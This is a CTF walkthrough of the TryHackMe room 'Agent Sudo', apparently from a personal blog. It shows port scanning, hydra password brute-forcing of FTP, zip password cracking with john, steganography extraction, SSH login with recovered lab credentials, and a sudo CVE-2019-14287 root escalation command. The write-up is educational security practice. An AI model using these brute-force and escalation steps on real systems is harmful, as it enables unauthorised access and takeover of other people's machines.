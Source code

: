 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-01-03 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - web
  - privesc
  - bruteforce
  - hydra
  - suid
  - john
  - crack
  - gobuster
image:
  path: /assets/img/try_hack_me/Easy/Agent_sudo/0.png
  alt: Agent sudo
---
```


### **Description**
You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Port Scan
We start off with a nmap scan to identify the open ports.
```sh 
nmap -sV -sC -v 10.10.224.246
```
From the scan we get three open ports.
```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
We prioritized starting the investigation with the HTTP protocol on port 80.
### Http_80
Visiting the site we get:
![](../assets/img/try_hack_me/Easy/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.
![](../assets/img/try_hack_me/Easy/Agent_sudo/2.png)
Now we have a user `chris` but not sure it's for ssh or ftp.
### ftp-21
**Brute-force**
```sh
# hydra -L users.txt -P passwords.txt <IP> ftp 
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/3.png)
Now we have some valid credentials:
- username: `chris`  
- password: `crystal`
```sh
ftp chris@10.10.55.182 
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/4.png)

we get the file and read  the contents:
![](../assets/img/try_hack_me/Easy/Agent_sudo/5.png)

Will have to go back and get the images. We run `binwalk` on the `png` file which is the most likely to contain some hidden files.
We get these three files:
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:
```sh
# convert the file to format that john can understand
zip2john 8702.zip > forjohn

# now we let John do his thing
john forjohn.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/6.png)

Password = `alien`  
Unzip the files. 
 You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
# Use this command to check if we have any hiden msg
steghide info cute-alien.jpg 

# then we use the extract command 
steghide extract -sf cute-alien.jpg 

cat message.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`
```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/7.png)

## Privilege escalation
Run sudo -l  
![](../assets/img/try_hack_me/Easy/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/9.png)
